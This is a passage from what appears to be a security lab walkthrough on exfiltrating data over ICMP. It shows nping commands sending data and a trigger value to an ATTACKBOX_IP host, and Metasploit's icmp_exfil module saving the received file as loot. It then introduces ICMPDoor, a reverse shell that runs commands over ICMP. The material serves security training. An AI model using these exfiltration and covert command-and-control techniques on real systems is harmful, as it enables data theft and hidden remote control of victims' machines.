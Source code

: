 ```bash
RCVD (0.0748s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=31 id=2149 iplen=30 ]
    
Max rtt: 39.312ms | Min rtt: 0.371ms | Avg rtt: 19.841ms
Raw packets sent: 1 (44B) | Rcvd: 2 (74B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0364s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=33619 seq=1] IP [ttl=64 id=51488 iplen=31 ]
RCVD (0.0369s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=63 id=19671 iplen=31 ]
RCVD (0.3760s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=31 id=1003 iplen=36 ]
    
Max rtt: 339.555ms | Min rtt: 0.391ms | Avg rtt: 169.973ms
Raw packets sent: 1 (31B) | Rcvd: 2 (67B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds
thm@icmp-host:~#
```
Let's check our AttackBox once we have done sending the data and the ending trigger value.

*Receiving Data in MSF:*
```bash
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
[+] Beginning capture of "file.txt" data
[*] 30 bytes of data received in total
[+] End of File received. Saving "file.txt" to loot
[+] Incoming file "file.txt" saved to loot
[+] Loot filename: /root/.msf4/loot/20220425212408_default_ATTACKBOX_IP_icmp_exfil_838825.txt
```
Nice! We have successfully transferred data over the ICMP protocol using the Metasploit Framework. You can check the loot file mentioned in the terminal to confirm the received data.


## ICMP C2 Communication

Next, we will show executing commands over the ICMP protocol using the `ICMPDoor` https://github.com/krabelize/icmpdoor tool. ICMPDoor is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier in this task, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

*C2 Communication over ICMP:*
<img width="678" height="161" alt="image" src="https://github.com/user-attachments/assets/710b89d3-c62c-4d3b-9518-4c488bc7e0ed" />
